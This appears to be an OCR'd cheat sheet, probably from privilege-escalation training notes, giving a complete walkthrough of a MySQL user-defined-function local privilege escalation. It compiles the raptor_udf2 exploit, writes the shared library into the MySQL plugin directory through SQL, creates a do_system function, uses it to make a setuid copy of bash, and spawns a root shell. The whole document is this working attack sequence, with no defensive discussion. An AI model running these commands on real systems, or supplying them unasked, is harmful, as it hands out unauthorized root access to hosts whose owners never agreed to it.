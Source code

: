 ## MySQL UDF Local Privilege Escalation 

**Preconditions:**

- MySQL service running as **root**
- `root` MySQL user has **no password**

### 1. Compile UDF exploit
https://www.exploit-db.com/exploits/1518

```bash
cd /home/user/tools/mysql-udf
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

### 2. Connect to MySQL

```bash
mysql -u root
```

### 3. Load UDF into MySQL

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

### 4. Gain root via UDF

```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

### 5. Exit MySQL & pop root shell

```bash
exit
/tmp/rootbash -p
```

### 6. Cleanup

```bash
rm /tmp/rootbash
exit
```

---
